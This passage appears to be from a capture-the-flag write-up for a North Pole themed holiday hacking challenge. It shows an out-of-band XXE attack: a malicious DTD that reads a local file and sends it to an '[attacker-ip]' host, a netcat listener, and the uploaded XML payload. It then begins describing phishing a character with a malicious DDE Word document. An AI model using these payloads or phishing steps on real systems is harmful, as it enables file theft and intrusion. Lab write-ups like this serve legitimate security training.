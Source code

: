 First we stand up a server with a malicious `evil.dtd` file on port 8000 (`python -m SimpleHTTPServer 8000`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://[attacker-ip]:8888/?%stolendata;'>">
```

Then we capture the output of our target file we're extracting on port 8888:

```sh
nc -lp 8888 > greatbook.txt
```

Then we upload the payload referring to that server on EaaS (upload at bottom of http://eaas.northpolechristmastown.com/Home/DisplayXML):

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://[attacker-ip]:8000/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
```

After that is uploaded, it'll trigger our payload, we can see it download the second part and if we check `greatbook.txt` we get:

```sh
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
```

Now when we visit that page we get the next Great Book Page.

##### Solution

- The title of the Great Book Page #6 is: "The Dreaded Inter-Dimensional Tornados"


#### Elf Machine Interfaces

##### Questions

  - Retrieve The Great Book page from C:\GreatBookPage7.pdf. What does The Great Book page describe?

##### Process

On this challenge we are tasked to phish Alabaster Snowball.
There were traces of emails stating that Alabaster will open anything with the subject 'gingerbread cookie recipe'.
So we should send him a malicious document to open with that subject.

Creating the malicious docx was fairly straight-forward when using the hints.
Following the blogpost was very useful about DDE and helped produce the payload below:
https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
